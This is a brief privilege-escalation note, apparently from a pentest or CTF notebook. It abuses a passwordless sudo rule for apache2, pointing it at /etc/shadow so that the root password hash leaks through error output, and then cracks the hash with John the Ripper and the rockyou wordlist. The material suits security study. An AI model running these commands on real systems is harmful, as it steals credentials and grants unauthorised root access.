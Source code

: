 # Abusing attended functionality

This allows running `apache2` as root without password. Apache config files can `Include` arbitrary files, so we can read root-only files through error output.

![image.png](../../../.gitbook/assets/image.png)

```bash
sudo /usr/sbin/apache2 -f /etc/shadow
```

which case error but hashed of root is leaked

then unshadow and crack hash

<figure><img src="../../../.gitbook/assets/image 1.png" alt=""><figcaption></figcaption></figure>

```bash
john shadow1 --wordlist=~/wordlist/rockyou.txt --pot=deleteme.pot
```

we use this option `--pot=deleteme.pot` to force john start crack again
